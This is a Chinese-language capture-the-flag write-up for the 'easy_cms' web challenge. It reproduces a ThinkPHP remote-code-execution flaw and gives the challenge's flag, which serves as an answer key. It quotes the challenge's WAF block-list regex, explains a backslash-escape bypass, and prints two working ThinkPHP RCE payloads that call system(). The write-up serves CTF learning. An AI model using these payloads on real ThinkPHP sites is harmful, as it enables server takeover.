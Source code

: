 题目名称：easy_cms

题目类型： WEB

题目难度：容易

出题人：ljxxxxx

考点：

thinkphp漏洞复现

rce waf 绕过

描述：小李同学安装了thinkphp框架，却发现框架有漏洞。决定尝试修复一下，发现搞不懂thinkphp路由关系，最终采取其他方式....（搞不定理由我还搞不定你？）

flag：flag{68ff971077c08515fdbbd83fac40fca1}

Writeup：题目给了robots.txt 提示www.zip

下载题目源码

将源码放到phpstudy内，输入poc进行调试，一步一步跟进到命令执行处

在App.php 321行和获得rce waf（存在两种poc，另一种poc的waf过滤在Request.php 1083行）

![image-20221019202038560](C:\Users\ljx\AppData\Roaming\Typora\typora-user-images\image-20221019202038560.png)

![image-20221019202402676](C:\Users\ljx\AppData\Roaming\Typora\typora-user-images\image-20221019202402676.png)

```php
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $value2))
```

绕过waf：利用linux中的特性 ca\t的执行结果和cat一致，而waf只过滤了`\\`和`\\\\`

poc:

```php
?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=l\s
```

或者

```php
?s=captcha  POST
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=l\s
```

